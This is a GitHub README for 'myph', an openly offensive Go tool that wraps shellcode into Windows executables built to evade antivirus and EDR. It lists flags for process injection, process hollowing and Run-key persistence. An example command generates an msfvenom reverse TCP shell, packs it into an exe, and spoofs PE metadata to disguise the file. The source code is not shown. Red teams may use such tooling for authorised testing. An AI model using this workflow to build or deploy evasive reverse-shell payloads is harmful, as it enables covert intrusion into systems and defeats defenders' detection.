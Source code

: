 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes.
> Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```

              ...                                        -==[ M Y P H ]==-
             ;::::;
           ;::::; :;                                    In loving memory of
         ;:::::'   :;                               Wassyl Iaroslavovytch Slipak
        ;:::::;     ;.
       ,:::::'       ;           OOO                       (1974 - 2016)
       ::::::;       ;          OOOOO
       ;:::::;       ;         OOOOOOOO
      ,;::::::;     ;'         / OOOOOOO
    ;::::::::: . ,,,;.        /  / DOOOOOO
  .';:::::::::::::::::;,     /  /     DOOOO
 ,::::::;::::::;;;;::::;,   /  /        DOOO        AV / EDR evasion framework
; :::::: '::::::;;;::::: ,#/  /          DOOO           to pop shells and
: ::::::: ;::::::;;::: ;::#  /            DOOO        make the blue team cry
:: ::::::: ;:::::::: ;::::# /              DOO
 : ::::::: ;:::::: ;::::::#/               DOO
 ::: ::::::: ;; ;:::::::::##                OO       written with <3 by djnn
 :::: ::::::: ;::::::::;:::#                OO                ------
 ::::: ::::::::::::;' :;::#                O             https://djnn.sh
   ::::: ::::::::;  /  /  :#
   :::::: :::::;   /  /    #

Usage:
  myph [flags]
  myph [command]

Available Commands:
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  spoof       spoof PE metadata using versioninfo

Flags:
  -e, --encryption encKind   encryption method. (allowed: AES, chacha20, XOR, blowfish) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string           output name (default "payload.exe")
  -z, --peristence string    name of the binary being placed in '%APPDATA%' and in 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run' reg key (default: "")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
      --sleep-time uint      sleep time in seconds before executing loader (default: 0)
  -t, --technique string     shellcode-loading technique (allowed: CRT, CRTx, CreateFiber, ProcessHollowing, CreateThread, Syscall, Etwp) (default "CRT")

  -v, --version              version for myph

Use "myph [command] --help" for more information about a command.
```

#### Loader Methods

This tool supports few methods for now, but aims to add more as time goes on:
- Syscall
- CreateFiber
- CreateThread
- Process hollowing
- Callback
- CreateRemoteThread
- EtwpCreateEtwThread
- CreateRemoteThreadEx

If you don't know what that is about, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~


#### Example run

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe

# add some program metada
./myph spoof --pe something.exe --file .github/test-data/example.json
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

#### Editing file properties

A subcommand is available to edit a PE file's properties & change its icon or file version (for instance).
For more information on CLI usage, you can run:
```bash
# will give you a little help display
./myph spoof --help

# will edit demo.exe with the data specified in example.json
./myph spoof --pe demo.exe --file example.json
```

It expects a JSON file, containing the metadata you want to set. You can find an example in `.github/test-data` directory.

Information on resource types and language IDs can be found [here](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-types) and [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lcid/70feba9f-294e-491e-b6eb-56532684c37f).

You can set data depending on the language.
BMP, ICO, and PNG files are supported, and you can a wide array of information:

```json
{
  "RT_VERSION": {
    "#1": {
      "0000": {
        "fixed": {
          "file_version": "1.2",
          "product_version": "1.2.3",
          "flags": "Debug,Patched",
          "timestamp": "2020-12-18T23:00:00+01:00"
        },
        "info": {
          "0409": {
            "Comments": "that should do it",
            "CompanyName": "Smersh",
            "FileDescription": "smrsh 4 evr",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          },
          "040C": {
            "Comments": "ca devrait le faire",
            "CompanyName": "Smersh",
            "FileDescription": "smrh pr tjrs",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          }
        }
      }
    }
  }
}
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~

A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
